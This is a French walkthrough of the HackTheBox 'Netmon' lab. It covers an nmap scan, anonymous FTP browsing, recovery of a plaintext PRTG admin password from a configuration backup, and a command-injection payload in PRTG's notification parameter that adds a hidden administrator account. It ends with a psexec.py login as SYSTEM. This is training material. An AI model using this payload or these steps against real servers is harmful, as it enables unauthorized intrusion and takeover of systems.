

Informations
----
    Ip :  10.10.10.152      Created by : mrb3n
    Level : Easy    Base Points : 20
    
Résumé :  

Le système Netmon, disponible sur la platforme [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. La boîte était relativement simple. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système.  

- Le protocole `FTP` est ouvert, et il était possible de se connecter en `anonymous`.
- Le service FTP n'est pas `chroot` ce qui nous permettait de lire des fichiers dans le système.
- Il y a le service `PRTG Network Monitor` d'ouvert dans le système et il y avait un fichier `backup` assez sensible pour la récupération du mot de passe de la session.
- Nous pouvons exécuter des commandes grâce au système `PRTG Network Monitor` et ensuite faire notre reverse shell pour être administrateur.

Nmap
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-06-29 17:21 CEST
    Nmap scan report for 10.10.10.152
    Host is up (0.040s latency).
    PORT    STATE SERVICE      VERSION
    21/tcp  open  ftp          Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 02-03-19  12:18AM                 1024 .rnd
    | 02-25-19  10:15PM       <DIR>          inetpub
    | 07-16-16  09:18AM       <DIR>          PerfLogs
    | 02-25-19  10:56PM       <DIR>          Program Files
    | 02-03-19  12:28AM       <DIR>          Program Files (x86)
    | 02-03-19  08:08AM       <DIR>          Users
    |_06-29-19  11:07AM       <DIR>          Windows
    80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
    | http-title: Welcome | PRTG Network Monitor (NETMON)
    |_Requested resource was /index.htm
    139/tcp open  netbios-ssn  Microsoft Windows 98 netbios-ssn
    445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 microsoft-ds
    Service Info: OSs: Windows, Windows 98, Windows Server 2008 R2; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2008:r2

    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smbv2-enabled: Server supports SMBv2 protocol

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 20.61 seconds

Il y'a différent services d'ouvert notamment le service `FTP` ou nous avons les permissions pour se connecter en tant que `anonymous`.

FTP
----
    root@Seyptoo:~/htb/box/Netmon# ftp 10.10.10.152
    Connected to 10.10.10.152.
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    220 Microsoft FTP Service
    Name (10.10.10.152:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:18AM                 1024 .rnd
    02-25-19  10:15PM       <DIR>          inetpub
    07-16-16  09:18AM       <DIR>          PerfLogs
    02-25-19  10:56PM       <DIR>          Program Files
    02-03-19  12:28AM       <DIR>          Program Files (x86)
    02-03-19  08:08AM       <DIR>          Users
    06-29-19  11:07AM       <DIR>          Windows
    226 Transfer complete.
    ftp> cd Users
    250 CWD command successful.
    ftp> cd Public
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  08:05AM       <DIR>          Documents
    07-16-16  09:18AM       <DIR>          Downloads
    02-03-19  12:35AM                   33 user.txt
    07-16-16  09:18AM       <DIR>          Videos
    226 Transfer complete.
    ftp> mget user.txt
    mget user.txt? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    WARNING! 1 bare linefeeds received in ASCII mode
    File may not have transferred correctly.
    226 Transfer complete.
    33 bytes received in 0.03 secs (0.9522 kB/s)
    ftp> exit
    root@Seyptoo:~/htb/box/Netmon# wc -c user.txt 
    33 user.txt

Le fichier `user.txt` est disponible et nous pouvons le transférer vers notre machine physique.

PRTG ADMIN
----

D'après le scan et également d'après mes recherches le service tourne dans le dossier `ProgramData`.

    ftp> cd ProgramData
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:15AM       <DIR>          Licenses
    11-20-16  10:36PM       <DIR>          Microsoft
    02-03-19  12:18AM       <DIR>          Paessler
    02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
    07-16-16  09:18AM       <DIR>          SoftwareDistribution
    02-03-19  12:15AM       <DIR>          TEMP
    11-20-16  10:19PM       <DIR>          USOPrivate
    11-20-16  10:19PM       <DIR>          USOShared
    02-25-19  10:56PM       <DIR>          VMware
    226 Transfer complete.
    ftp> cd Paessler
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    06-29-19  11:11AM       <DIR>          PRTG Network Monitor
    226 Transfer complete.
    ftp> cd "PRTG Network Monitor"
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
    06-29-19  10:29AM       <DIR>          Log Database
    02-03-19  12:18AM       <DIR>          Logs (Debug)
    02-03-19  12:18AM       <DIR>          Logs (Sensors)
    02-03-19  12:18AM       <DIR>          Logs (System)
    06-29-19  10:29AM       <DIR>          Logs (Web Server)
    06-29-19  10:34AM       <DIR>          Monitoring Database
    02-25-19  10:54PM              1189697 PRTG Configuration.dat
    06-29-19  10:58AM              1292772 PRTG Configuration.old
    07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
    06-29-19  11:11AM              1548431 PRTG Graph Data Cache.dat
    02-25-19  11:00PM       <DIR>          Report PDFs
    02-03-19  12:18AM       <DIR>          System Information Database
    02-03-19  12:40AM       <DIR>          Ticket Database
    02-03-19  12:18AM       <DIR>          ToDo Database
    226 Transfer complete.

Nous avons des fichiers plutôt interéssant notamment le fichier `backup PRTG Configuration.old.bak`, nous allons transférer ce fichier vers notre machique physique pour énumérer ce fichier. Quand nous défilons un peu, on peut constater des informations d'identification dans le système `PRTG Network Monitor`.

    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>

Donc si vous tentez d'accéder au service, logiquement vous aurez pas accès car le mot de passe correspond celui là de 2018, et comme nous avons changer de génération c'est 2019. (J'ai mis pas mal de temps à comprendre).

HTTP
----
Donc nous avons les informations d'identification nous pouvons nous connecter dans le service en question et d'éxecuter des commandes.

> Username : prtgadmin  
> Password : PrTg@dmin2019

Une fois connecté au service nous allons allez dans `Setup` et ensuite notifications. Créé une nouvelle notification et ensuite d'aller dans `Execute Program` pour justement exécuter des commandes. Je vais créé un utilisateur qui serais dans le groupe `administrators`.

`test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add`

Vous devez mettre les informations dans la section `Parameter` et de mettre les informations pour créé notre utilisateur comme administrateur.

Vous enregistrez la notification et ensuite vous cliquez sur la petite cloche et normalement votre commande a été exécuter avec succès. Vous devriez un peu patienter pour que la commande sois exécuter avec certitude.

PrivEsc
----

Une fois toute les modifications ont été effectué vous vous connectez avec `psexec.py` dans le système pour être administrateur. Vous pouvez également utilisé `smbclient`.

    root@Seyptoo:~/htb/box/Netmon# psexec.py 'anon:p3nT3st!@10.10.10.152'
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file tbwyLJgn.exe
    [*] Opening SVCManager on 10.10.10.152.....
    [*] Creating service PdOp on 10.10.10.152.....
    [*] Starting service PdOp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. Une boîte vraiment intéréssante et concrètement assez originale, une boîte relativement simple.
